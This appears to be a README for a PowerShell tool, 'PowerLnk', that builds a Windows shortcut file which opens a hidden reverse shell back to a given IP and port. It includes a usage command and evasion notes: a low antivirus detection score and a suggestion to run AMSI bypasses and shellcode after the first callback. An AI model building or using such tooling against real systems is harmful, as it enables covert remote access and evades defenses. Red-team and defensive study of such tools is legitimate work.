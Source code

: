 # PowerLnk
generates a .Lnk file that executes a reverse shell in hidden powershell window

# Useage
script take two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 6/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.
